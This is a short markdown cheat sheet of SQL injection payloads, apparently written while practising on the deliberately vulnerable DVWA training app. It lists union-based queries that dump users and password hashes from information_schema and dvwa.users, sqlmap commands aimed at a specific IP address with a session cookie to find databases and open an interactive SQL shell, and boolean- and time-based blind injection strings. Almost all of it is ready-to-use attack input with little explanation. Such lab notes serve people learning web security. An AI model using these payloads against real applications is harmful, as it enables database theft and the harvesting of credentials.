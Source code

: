 # SQL Injection 

##### Dump all users 
```sql
%' or '0'='0
```

##### Manual enumeration 

###### Trying to guess column names 
```sql
%' or '0'='0' union select COLUMN_NAME from information_schema.COLUMNS #
```

###### Find the table and column names 
```sql
%' or '0'='0' union select TABLE_NAME, COLUMN_NAME from information_schema.COLUMNS #
```

##### Dumping password hashes 
```sql
%' or '0'='0' union select user, password from dvwa.users #
```

### Automated 
---

### Using sqlmap 

##### Find backend DB
```sh
python ./sqlmap.py -u "http://161.35.202.77/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=d4ool8gsr78mnro6cas6mrlf35; security=low" --dbs
```

##### Getting an interactive sql shell 
```sh
python ./sqlmap.py -u "http://161.35.202.77/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=d4ool8gsr78mnro6cas6mrlf35; security=low" --sql-shell
```


## Bling SQL injection 

##### Finding blind sqli (boolien based)
```sql
1' and 1 = 1 #
```
##### Finding database name length (boolien based)
```
1' and length(database())=4 #
```

##### Finding blind sqli (time based)
```sql
1' and sleep(5)#
```

##### Determine the first letter of the database name (time-based)
```
1' and if(substr((database()),1,1) = 'a' , sleep(3), 1) #
```




